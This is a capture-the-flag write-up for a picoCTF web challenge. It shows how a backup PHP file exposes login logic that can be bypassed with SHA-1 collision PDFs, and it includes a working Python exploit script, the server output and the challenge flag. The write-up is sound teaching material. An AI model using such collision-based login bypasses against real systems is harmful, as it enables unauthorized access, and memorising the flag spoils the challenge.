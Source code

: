 ---
tags: [web]
---

# Apriti sesamo

- **Description:** I found a web app that claims to be impossible to hack!
- **Difficulty:** Medium

---

## 🔎 Solution
The website presents a login form at `/impossibleLogin.php`. 
Attempting a random login simply returns the message: *Failed! No flag for you*.  

Given the hint about backup files, I tried appending common backup extensions such as `.old`, `~`,... to the original path. 
This led me to a backup version of the page at `/impossibleLogin.php~`.  

Inside, I discovered a block of obfuscated PHP code
```php
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>
```

After decoding it, I found the core login logic, which enforces the following conditions to access the `flag.txt` file:
1. The username must not be equal to the password.
2. The SHA-1 hash of the username must match the SHA-1 hash of the password.
```php
<?php
    if (isset($_POST["username"]) && isset($_POST["pwd"])) {
        $yuf85e0677 = $_POST["username"]; // username
        $rs35c246d5 = $_POST["pwd"]; // password
    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br/>Failed! No flag for you";
    }  
    else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../flag.txt");
        } 
        else {
            echo "<br/>Failed! No flag for you";
        }
    }
}
?>
```

In essence, this is a classic **[hash collision](https://en.wikipedia.org/wiki/Hash_collision)** challenge - 2 different inputs producing the same hash output.  

To exploit this, I used 2 specially crafted PDF files with identical SHA-1 hashes, publicly released by Google in [their 2017 announcement of the first SHA-1 collision](https://security.googleblog.com/2017/02/announcing-first-sha1collision.html). 
By submitting these 2 PDFs 2 one as the username, the other as the password - I satisfied both conditions simultaneously.
A small script was written to automate this submission. 
```python
import requests 
import urllib 

file1 = urllib.request.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500]; 
file2 = urllib.request.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500]; 

r = requests.post("http://verbal-sleep.picoctf.net:56613/impossibleLogin.php", 
data={'username': file1, 'pwd': file2}); 

print(r.text)
```
Upon a successful login, the server responded with the contents of the flag.
```bash
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

picoCTF{w3Ll_d3sErV3d_Ch4mp_b88bdb32}
```

## 🚩Flag
> `picoCTF{w3Ll_d3sErV3d_Ch4mp_b88bdb32}`
